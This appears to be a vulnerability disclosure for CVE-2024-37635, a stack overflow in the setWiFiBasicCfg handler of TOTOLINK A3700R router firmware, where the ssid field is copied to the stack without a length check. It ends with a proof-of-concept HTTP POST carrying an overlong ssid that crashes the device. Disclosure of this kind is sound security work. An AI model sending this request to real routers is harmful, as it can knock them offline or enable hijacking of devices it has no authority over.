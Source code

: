 # TOTOLINK A3700R V9.1.2u.6165_20211012 function setWiFiBasicCfg stack overflow

### Product Information

Product: TOTOLINK A3700R  Firmware Version: V9.1.2u.6165_20211012  

Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-37635

### Analysis

`V7 ` retrieves the value from the ` ssid ` field input by the user and processes it in the ` urldecode ` function. The processed result is stored in the stack.

![image-20240613115802765](./image-20240613115802765.png)

But without checking if the length exceeds the buffer.

Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 174

Origin: http://127.0.0.1

Connection: keep-alive

Referer: http://127.0.0.1/basic/index.html

Cookie: SESSION_ID=2:1718247599:2

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: same-origin



{"topicurl":"setWiFiBasicCfg",

"ssid":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"

}
```

![image-20240613120008078](./image-20240613120008078.png)
